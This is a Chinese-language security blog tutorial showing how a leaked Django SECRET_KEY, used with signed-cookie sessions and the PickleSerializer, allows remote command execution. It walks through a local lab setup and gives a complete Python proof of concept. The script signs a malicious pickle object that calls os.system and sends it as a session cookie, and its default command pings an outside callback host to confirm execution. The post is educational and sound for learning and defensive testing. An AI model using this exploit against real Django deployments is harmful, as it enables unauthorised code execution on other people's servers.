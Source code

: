Title:django的secret key泄漏导致的命令执行实践
Date: 2018-02-01 10:20
Category: python安全
Tags: 反序列化,django,pickle,secret key,python
Slug: 
Authors: bit4
Summary: 

### 0x0、secret key的用途和泄漏导致的攻击面

secret key主要用于加密、签名，下面是[官方文档](https://docs.djangoproject.com/en/2.0/ref/settings/#secret-key)的说明：

The secret key is used for:

- All [sessions](https://docs.djangoproject.com/en/2.0/topics/http/sessions/) if you are using any other session backend than `django.contrib.sessions.backends.cache`, or are using the default[`get_session_auth_hash()`](https://docs.djangoproject.com/en/2.0/topics/auth/customizing/#django.contrib.auth.models.AbstractBaseUser.get_session_auth_hash).
- All [messages](https://docs.djangoproject.com/en/2.0/ref/contrib/messages/) if you are using [`CookieStorage`](https://docs.djangoproject.com/en/2.0/ref/contrib/messages/#django.contrib.messages.storage.cookie.CookieStorage) or [`FallbackStorage`](https://docs.djangoproject.com/en/2.0/ref/contrib/messages/#django.contrib.messages.storage.fallback.FallbackStorage).
- All [`PasswordResetView`](https://docs.djangoproject.com/en/2.0/topics/auth/default/#django.contrib.auth.views.PasswordResetView) tokens.
- Any usage of [cryptographic signing](https://docs.djangoproject.com/en/2.0/topics/signing/), unless a different key is provided.

secret key泄漏可能的攻击面：

- 远程代码执行，如果使用了cookie-based sessions。当然其他可以操作session_data的问题都可能导致
- 任意密码重置， contrib.auth.token.
- CSRF
- .......

我们主要关注远程代码执行这个点。

### 0x1、django session的几种方式

1. 数据库(database-backed sessions)，

比如下图，session的key和data都是存储在sqlite数据库中的，这是默认的设置，当用户带着cookie来请求服务端时，cookie中包含的是session_key，服务端会根据这个session_key来查询数据库，从而获取到session_data。即是说，session_data是存在服务端的。

![cooke_session](img/django_secret_key/cooke_session.png)

2. [缓存（cached sessions）](https://docs.djangoproject.com/en/dev/topics/cache/)
3. 文件系统（file-based sessions）
4. cookie(cookie-based sessions)

当django使用了这种方式的时候，和其它几种方式不同的是，它将session_data也是存在于cookie中的，即存在于客户端的。但它是经过签名的，签名依赖于django 的secret key，所以如果我们知道了secret key将可能修改session_data。这也是我们将要讨论的重点。



### 0x2、环境准备



 关于通过操作session来实现命令执行有一个很好的[案例](https://www.leavesongs.com/PENETRATION/zhangyue-python-web-code-execute.html)。在学习pickle反序列化的时候就看过，其中的关键是django在取得session_data之后，需要进行反序列化操作才能获取其中的数据。所以，如果能有机会操作session_data，就有可能构造出代码执行。

而我们这里关注的是secret key泄漏的情况，它有2个关键点：

1. 使用了cookie-based sessions
2. 使用了serializers.PickleSerializer（ django1.5级以下，session默认是采用pickle执行序列号操作`django.contrib.sessions.serializers.PickleSerializer`；在1.6 及以上版本默认采用json序列化。`django.contrib.sessions.serializers.JSONSerializer`）


djgano测试环境部署：

```python
#命令行下运行如下命令来创建项目
django-admin startproject testproject

#在项目中创建应用
cd testproject
python manage.py startapp testapp

#在setting.py中新增SESSION_ENGINE和SESSION_SERIALIZER配置。这是漏洞存在的必要条件！
SESSION_ENGINE = 'django.contrib.sessions.backends.signed_cookies'
#SESSION_SERIALIZER = 'django.contrib.sessions.serializers.JSONSerializer'
SESSION_SERIALIZER = 'django.contrib.sessions.serializers.PickleSerializer'
#因为我的环境中使用的django1.11，默认使用的是JSONSerializer，所以需要配置这一条。
```

urls.py的内容如下：

```python
from django.conf.urls import url
from django.contrib import admin
from testapp import views

urlpatterns = [
    url(r'.*$', views.index),
    url(r'^admin/', admin.site.urls),
]
```

views.py中的内容如下：

```python
# -*- coding: utf-8 -*-
from __future__ import unicode_literals

from django.shortcuts import render
from django.http import HttpResponse

# Create your views here.
def index(request):
    x= request.session
    print x.values
    print dir(x)
    print x.serializer
    print x['userid'] #这一句是关键，需要有尝试从session中取数据的行为，django才会去执行反序列
    return HttpResponse(x)
  
```

注意：必须要有尝试从session中取数据的行为，django才会去执行反序列，否则将不能触发！所以实际的环境中，最好选择用户信息相关接口等一定会取数据的接口进行测试。

以上就完成了环境的准备，运行`python manage.py runserver` 启动服务。



### 0x3、PoC及验证

关于pickle poc的生成方法，可以参考我之前的文章 [Python Pickle的任意代码执行漏洞实践和Payload构造](http://www.code2sec.com/python-picklede-ren-yi-dai-ma-zhi-xing-lou-dong-shi-jian-he-payloadgou-zao.html)

poc.py的内容如下：

```python
# !/usr/bin/env python
# -*- coding:utf-8 -*-
__author__ = 'bit4'
__github__ = 'https://github.com/bit4woo'

import os
import requests
from django.contrib.sessions.serializers import PickleSerializer
from django.core import signing
import pickle

def session_gen(SECRET_KEY,command = 'ping -n 3 test.0y0.link || ping -c test.0y0.link',):
    class Run(object):
        def __reduce__(self):
            #return (os.system,('ping test.0y0.link',))
            return (os.system,(command,))

    #SECRET_KEY = '1bb8)i&dl9c5=npkp248gl&aji7^x6izh3!itsmb6&yl!fak&f'
    SECRET_KEY = SECRET_KEY

    sess = signing.dumps(Run(), key = SECRET_KEY,serializer=PickleSerializer,salt='django.contrib.sessions.backends.signed_cookies')
    #生成的恶意session
    print sess


    '''
    salt='django.contrib.sessions.backends.signed_cookies'
    sess = pickle.dumps(Run())
    sess = signing.b64_encode(sess)#通过跟踪signing.dumps函数可以知道pickle.dumps后的数据还经过了如下处理。
    sess = signing.TimestampSigner(key=SECRET_KEY, salt=salt).sign(sess)
    print sess
    #这里生成的session也是可以成功利用的，这样写只是为了理解signing.dumps。
    '''

    session = 'sessionid={0}'.format(sess)
    return session

def exp(url,SECRET_KEY,command):

    headers = {'Cookie':session_gen(SECRET_KEY,command)}
    proxy = {"http":"http://127.0.0.1:8080"}#设置为burp的代理方便观察请求包
    response = requests.get(url,headers= headers,proxies = proxy)
    #print response.content

if __name__ == '__main__':
    url = 'http://127.0.0.1:8000/'
    SECRET_KEY = '1bb8)i&dl9c5=npkp248gl&aji7^x6izh3!itsmb6&yl!fak&f'
    command = 'ping -n 3 test.0y0.link || ping -c test.0y0.link'
    exp(url,SECRET_KEY,command)
```

运行poc.py时，后台的输出结果：

![success](img/django_secret_key/success.png)

print x['userid']对应了2个动作，一是反序列化，也就是执行系统命令的关键；二是取值，这里是取值失败打印了错误信息，但是这已经不重要了，因为我们已经实现了我们的目的。

poc脚本最好使用原生的库或者方法来进行其中的payload生成操作。比如上面的poc.py中，可以使用signing.dumps，也可单独使用pickle.dumps然后加上其他操作，但是最好使用第一种，这样可以很好地保证payload的正确性。而且实际的环境中，如果能获取到目标的具体版本，最好通过配置相应版本的环境来完成poc的生成。

本文环境和代码的下载地址：

[https://github.com/bit4woo/code2sec.com/tree/master/code/testproject](https://github.com/bit4woo/code2sec.com/tree/master/code/testproject)

**参考：**

https://www.mxsasha.eu/blog/2013/04/26/proof-of-concept-arbitrary-remote-code-execution-pickle-sessions/  flask的payload生成器

https://www.leavesongs.com/PENETRATION/zhangyue-python-web-code-execute.html 

https://github.com/danghvu/pwp flask等其他python web框架中的相似问题

https://www.kevinlondon.com/2015/10/16/answers-to-django-security-questions.html

http://www.oschina.net/translate/python-web-framework-from-lfr-to-rce?print

https://systemoverlord.com/2014/04/14/plaidctf-2014-reekeeeee/

https://labs.detectify.com/2015/10/02/how-patreon-got-hacked-publicly-exposed-werkzeug-debugger/

https://docs.djangoproject.com/en/1.11/topics/http/sessions/

http://xxlegend.com/2015/04/01/%E4%BB%8EDjango%E7%9A%84SECTET_KEY%E5%88%B0%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C/